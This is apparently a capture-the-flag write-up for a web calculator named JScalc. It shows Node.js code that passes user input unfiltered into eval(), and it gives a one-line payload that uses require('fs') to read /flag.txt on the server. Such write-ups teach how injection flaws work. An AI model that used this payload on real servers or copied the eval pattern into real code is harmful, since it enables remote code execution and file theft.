

# JScalc

_**Keywords:** JS insecurity, eval, Remote Code Execution (RCE)_



JScalc is a web platform designed for executing calculations.


However, as explicitly mentioned on the homepage, the calculations are performed using the eval() function. As evident from the source code, user input is directly passed as a parameter to the aforementioned function.


```javascript
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

This situation is precarious because user input is not filtered in any way, allowing the execution of code on the server (Remote Code Execution - RCE).

With this understanding, we can read the flag by inputting:

```javascript
require('fs').readFileSync('/flag.txt').toString();
```

